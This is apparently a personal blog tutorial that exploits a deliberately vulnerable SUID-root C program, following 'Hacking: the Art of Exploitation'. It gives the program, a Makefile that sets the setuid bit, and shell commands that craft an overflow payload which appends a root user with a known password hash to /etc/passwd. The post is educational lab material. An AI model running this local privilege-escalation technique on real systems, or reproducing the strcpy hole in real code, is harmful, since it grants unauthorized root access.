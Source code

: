 ```yaml
---
layout: post
title: Exploiting Simple Buffer Overflow (1)
comments: true
---
```


As I am revising the concept of buffer overflow and its exploitation, I will post a sequence of articles on exploiting buffer overflow with varying settings. Today, let's exploit a simple SUID-ed program with a stack-based BOF to add a new root-priviledged user with a chosen password. This example is referenced from the book [Hacking: the Art of Exploitation](http://www.amazon.com/Hacking-Art-Exploitation-Jon-Erickson/dp/1593271441/ref=sr_1_sc_1?ie=UTF8&qid=1446946770&sr=8-1-spell&keywords=hacking+the+art+of+exploitaitn).  

------------------


```
taishi@sirius:~/blackhat_python/bof_lab|master⚡
⇒  uname -a
Linux sirius 3.13.0-63-generic #103-Ubuntu SMP Fri Aug 14 21:42:59 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
taishi@sirius:~/blackhat_python/bof_lab|master⚡
⇒  lsb_release -a
No LSB modules are available.
Distributor ID:	Ubuntu
Description:	Ubuntu 14.04.3 LTS
Release:	14.04
Codename:	trusty
taishi@sirius:~/blackhat_python/bof_lab|master⚡
⇒  gcc --version 
gcc (Ubuntu 4.8.4-2ubuntu1~14.04) 4.8.4
Copyright (C) 2013 Free Software Foundation, Inc.
This is free software; see the source for copying conditions.  There is NO
warranty; not even for MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.
```

I'm using x86_64, but I will compile the program in 32bit mode.  

```C
#include    <stdio.h>
#include	<stdlib.h>
#include	<string.h>
#include	<fcntl.h>
#include	<unistd.h>

struct data {
	char buffer[100];
	char datafile[20];
};

int main (int argc, char **argv){
	struct data data;

	strcpy(data.datafile, "/var/notes");

	if (argc < 2) {
		printf("Usage: %s <buffer>\n", argv[0]);
		exit(1);
	}

	strcpy(data.buffer, argv[1]);

	printf("[DEBUG] data.buffer @ %p: \'%s\'\n", data.buffer, data.buffer);
	printf("[DEBUG] data.datafile @ %p: \'%s\'\n", data.datafile, data.datafile);

	int fd;
	fd = open(data.datafile, O_WRONLY| O_APPEND);
	printf("[DEBUG] fd @ %p: %d\n", &fd, fd);

	if (write(fd, data.buffer, strlen(data.buffer)) == -1) {
		fprintf(stderr, "in main() - no write\n");
		exit(1);
	}
	if (close(fd) == -1) {
		fprintf(stderr, "in main() - no close\n");
		exit(1);
	}
		return 0;
}
```

The program shown above simply appends `buffer` (copied from `argv[1]`) to the file `/var/notes` stored in `datafile`. There is one of the simplest forms of buffer overflow when strcpy is called to copy `argv[1]` to `buffer` --- when more than 100 characters are stored in `argv[0]`, then remaining would be overflowed. It is compiled and chown/chmod-ed as shown below.  

```
CC=gcc
CFLAGS=-m32 -std=c99 -Wall

all: pass_change

pass_change: pass_change.o
	$(CC) $(CFLAGS) -o $@ $^
	sudo chown 0:0 $@
	sudo chmod u+s $@

pass_change.o: pass_change.c

clean:
	rm pass_change.o pass_change
```


When `argv[1]` is not over 100 characters, it works perfectly.

```
taishi@sirius:~/blackhat_python/bof_lab|master⚡
⇒  sudo touch /var/notes
taishi@sirius:~/blackhat_python/bof_lab|master⚡
⇒  ./pass_change AAAA                      
[DEBUG] data.buffer @ 0xffce9dd4: 'AAAA'
[DEBUG] data.datafile @ 0xffce9e38: '/var/notes'
[DEBUG] fd @ 0xffce9dd0: 3
taishi@sirius:~/blackhat_python/bof_lab|master⚡
⇒  cat /var/notes 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA%
taishi@sirius:~/blackhat_python/bof_lab|master⚡
⇒  python -c "print 0xffce9e38-0xffce9dd4"
100
```

Since the offset between buffer and datafile is 100 (same as the size of buffer), the remaining part over 100 characters of argv[1] will be overwritten to `datafile`.  

```
taishi@sirius:~/blackhat_python/bof_lab|master⚡
⇒  ./pass_change $(perl -e 'print "A"x120')
[DEBUG] data.buffer @ 0xffed7924: 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'
[DEBUG] data.datafile @ 0xffed7988: 'AAAAAAAAAAAAAAAAAAAA'
[DEBUG] fd @ 0xffed7920: -1
in main() - no write
```

By exploiting this BOF, let's create a new user with a chosen password by appending to `/etc/passwd` file. Following the format of `/etc/passwd` in UNIX system, I will add username `myroot` with password `password` --- `myroot:AA6tQYSfGxd/A:0:0:me:/root:/bin/bash`. As shown below, `password` is encrypted using Crypto() OpenSSL cryptographic library with a salt "AA". Note that the 3rd & 4th entry (i.e. "0:0") indicates root privilege. If you want to know the format of /etc/passwd more in detail, refer to a link [here](http://www.cyberciti.biz/faq/understanding-etcpasswd-file-format/).  

```
taishi@sirius:~/blackhat_python/bof_lab|master⚡
⇒  perl -e "print crypt('password', 'AA')"         
AA6tQYSfGxd/A
```

Since the content of datafile needs to be `/etc/passwd`, but the last entry in /etc/passwd needs to specify the user's default shell. So, let's create a symbolic link with the name `/tmp/etc/passwd` pointing to `/bin/bash`. Then, adjust the length of the user ID info (comment section), so that the location of `/etc/passwd` would be at 100.  

```
taishi@sirius:~/blackhat_python/bof_lab|master⚡
⇒  ln -s /bin/bash /tmp/etc/passwd  
taishi@sirius:~/blackhat_python/bof_lab|master⚡
⇒  perl -e 'print "myroot:AA6tQYSfGxd/A:0:0:" . "A"x50 . ":/root:/tmp"' | wc -c
86
taishi@sirius:~/blackhat_python/bof_lab|master⚡
⇒  perl -e 'print "myroot:AA6tQYSfGxd/A:0:0:" . "A"x64 . ":/root:/tmp"' | wc -c
100
taishi@sirius:~/blackhat_python/bof_lab|master⚡
⇒  perl -e 'print "myroot:AA6tQYSfGxd/A:0:0:" . "A"x64 . ":/root:/tmp" . "/etc/passwd"'
myroot:AA6tQYSfGxd/A:0:0:AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA:/root:/tmp/etc/passwd
```



